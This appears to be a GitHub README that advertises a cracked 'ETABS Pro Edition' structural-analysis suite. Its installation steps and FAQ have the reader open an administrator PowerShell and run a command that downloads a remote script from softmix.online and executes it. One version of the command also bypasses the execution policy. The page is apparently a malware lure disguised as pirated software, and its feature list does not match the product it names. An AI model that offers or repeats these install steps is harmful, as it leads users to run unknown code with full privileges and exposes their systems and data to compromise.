

<div align="center">


<br>


# ETABS Pro Edition
**Structural analysis · Seismic design · Concrete/steel**
<br>
**Structural analysis · Seismic design · Concrete/steel**
<br>
Professional  ◆  Enterprise  ◆  Complete  ◆  Windows



**ETABS Pro — structural modeling, seismic analysis, concrete and steel design codes and reporting all enabled.**

</div>
---

> Analyze high-rises with trusted FEA — seismic modules, concrete design and reporting tools all enabled.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

📊 **Statistical analysis** — Pro analytics and charting enabled.
📈 **Research workflow** — Reporting and export tools included.
📦 **Local desktop suite** — Works offline after setup.
🖥️ **Windows optimized** — Built for lab and academic PCs.
📋 **Complete toolkit** — Templates and datasets supported.
⚙️ **Pro modules** — Premium research features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 15 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 15 gb free space.
</details>


TAGS
etabs, etabs-pro, etabs-app, structural-analysis, seismic-design, concrete-steel, windows, pro, desktop, software, studio, tools
